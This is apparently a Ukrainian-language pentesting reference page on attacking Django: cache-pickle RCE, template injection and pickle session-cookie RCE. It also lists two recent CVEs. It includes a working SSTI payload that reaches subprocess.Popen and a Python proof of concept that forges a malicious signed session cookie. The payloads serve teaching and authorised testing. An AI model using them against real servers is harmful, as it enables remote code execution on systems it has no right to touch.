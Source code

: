# Django

{{#include /src/banners/hacktricks-training.md}}

## Маніпуляція кешем для RCE
Метод зберігання кешу за замовчуванням у Django - це [Python pickles](https://docs.python.org/3/library/pickle.html), що може призвести до RCE, якщо [недовірене введення буде розпаковано](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **Якщо зловмисник може отримати доступ на запис до кешу, він може ескалувати цю вразливість до RCE на базовому сервері**.

Кеш Django зберігається в одному з чотирьох місць: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [пам'яті](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [файлах](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16) або [базі даних](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Кеш, збережений на сервері Redis або в базі даних, є найбільш ймовірними векторами атаки (впровадження Redis та SQL-ін'єкція), але зловмисник також може використовувати кеш на основі файлів, щоб перетворити довільний запис на RCE. Підтримувачі позначили це як незначну проблему. Важливо зазначити, що папка файлів кешу, назва таблиці SQL та деталі сервера Redis можуть варіюватися в залежності від реалізації.

Цей звіт HackerOne надає чудовий, відтворювальний приклад експлуатації кешу Django, збереженого в базі даних SQLite: https://hackerone.com/reports/1415436

---

## Впровадження шаблонів на стороні сервера (SSTI)
Мова шаблонів Django (DTL) є **повною за Тюрінгом**. Якщо дані, надані користувачем, відображаються як *рядок шаблону* (наприклад, шляхом виклику `Template(user_input).render()` або коли `|safe`/`format_html()` видаляє автоматичне екранування), зловмисник може досягти повного SSTI → RCE.

### Виявлення
1. Шукайте динамічні виклики до `Template()` / `Engine.from_string()` / `render_to_string()`, які включають *будь-які* неочищені дані запиту.
2. Надішліть навантаження на основі часу або арифметики:
```django
{{7*7}}
```
Якщо відображений вихід містить `49`, введення компілюється шаблонним двигуном.

### Примітив до RCE
Django блокує прямий доступ до `__import__`, але граф об'єктів Python доступний:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Знайдіть індекс `subprocess.Popen` (≈400–500 в залежності від версії Python) та виконайте довільні команди:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Більш безпечний універсальний гаджет - це ітерація, поки `cls.__name__ == 'Popen'`.

Той же гаджет працює для **Debug Toolbar** або **Django-CMS** функцій рендерингу шаблонів, які неправильно обробляють введення користувача.

---

## RCE через куки сесії на основі Pickle
Якщо налаштування `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` увімкнено (або користувацький серіалізатор, який десеріалізує pickle), Django *дешифрує та розпаковує* куки сесії **перед** викликом будь-якого коду представлення. Тому наявність дійсного ключа підпису (за замовчуванням `SECRET_KEY` проекту) є достатньою для негайного віддаленого виконання коду.

### Вимоги до експлуатації
* Сервер використовує `PickleSerializer`.
* Зловмисник знає / може вгадати `settings.SECRET_KEY` (витоки через GitHub, `.env`, сторінки помилок тощо).

### Доказ концепції
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Відправте отримане cookie, і корисне навантаження виконується з правами WSGI worker.

**Заходи захисту**: Залишайте за замовчуванням `JSONSerializer`, змінюйте `SECRET_KEY` та налаштовуйте `SESSION_COOKIE_HTTPONLY`.

---

## Останні (2023-2025) критичні CVE для Django, які повинні перевірити пентестери
* **CVE-2025-48432** – *Введення журналу через неекранований `request.path`* (виправлено 4 червня 2025 року). Дозволяє зловмисникам підсовувати нові рядки/ANSI коди в журнали та отруювати подальший аналіз журналів. Рівень патчу ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Критичне SQL-введення* в `QuerySet.values()/values_list()` на `JSONField` (CVSS 9.8). Створіть JSON ключі, щоб вийти з цитування та виконати довільний SQL. Виправлено в 4.2.15 / 5.0.8.

Завжди визначайте точну версію фреймворку через сторінку помилки `X-Frame-Options` або хеш `/static/admin/css/base.css` та тестуйте вищезазначене, де це застосовно.

---

## Посилання
* Випуск безпеки Django – "Django 5.2.2, 5.1.10, 4.2.22 вирішують CVE-2025-48432" – 4 червня 2025 року.
* OP-Innovate: "Django випускає оновлення безпеки для усунення вразливості SQL-введення CVE-2024-42005" – 11 серпня 2024 року.

{{#include /src/banners/hacktricks-training.md}}
